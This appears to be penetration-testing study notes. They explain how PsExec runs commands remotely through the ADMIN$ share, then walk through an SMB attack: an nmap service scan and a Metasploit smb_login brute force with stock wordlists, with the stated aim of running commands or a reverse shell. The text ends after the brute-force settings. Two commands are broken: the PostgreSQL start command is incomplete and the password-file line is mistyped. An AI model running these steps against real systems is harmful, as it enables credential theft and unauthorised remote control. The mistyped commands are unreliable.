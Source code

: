 PsExec operates by copying its executable, `psexesvc.exe`, to the target machine's administrative share (`ADMIN$`), typically located at `C:\Windows\System32\psexesvc.exe`. It then installs and starts a service to execute the specified commands. After execution, PsExec stops the service and removes both the service and the executable from the target system.

Administrative privileges are necessary because PsExec requires access to the `ADMIN$` share to install its service on the remote system. Would need File and Printer Sharing is enabled on both the local and remote computers, and that TCP port 445 is open on the remote machine to facilitate the connection.

- Link to PsTools Package Download: https://download.sysinternals.com/files/PSTools.zip

```
C:\<location>\PsExec.exe \\10.63.45.88 -u Administrator -p Password powershell.exe
```
##### SMB Exploitation with PsExec

To exploit SMB using PsExec, aim to obtain legitimate credentials, such as a username/password or password hash. This can be achieved through techniques like SMB login brute-force attacks, focusing on common Windows user accounts (e.g., **Administrator**).

Once valid credentials are obtained, we can authenticate with the remote system via PsExec and execute arbitrary commands or initiate a reverse shell. This  would give command-line control over the system, allowing further exploitation or ability to escalate privileges within the network.

1. **Initial Nmap Scan**: Use the `-sV` flag to get the service version and `-sC` to run the default nmap script scans. If you get results like `smb2..` for SMBv2 so we can authenticate the SMB service using PsExec
```
nmap -sV -sC target
```

2. **Perform SMB Brute Force**: This can be done through the smb_login metasploit auxiliary module. Start PostgreSQL and Metasploit `service postgresql && msfconsole`, then either just search for `smb_login` or just use `auxiliary/scanner/smb/smb_login`.  We'll need to provide the `RHOSTS` for the target. We could provide `SMBDomain` if the target is domain-joined including the domain account and password with `SMBUser`/`SMBPass`. Since we're performing a brute-force, we'll need to set the `USER_FILE` and `PASS_FILE` file, some sample wordlists are:
	- Users: `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
	- Passwords: `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

	We also want to just see the successful logins so we can also set the `VERBOSE` option to false.
```
### (Optional) search smb_login ###

use auxiliary/scanner/smb/smb_login

set RHOSTS 10.33.60.54

set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt

set USER/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

set VERBOSE false
```
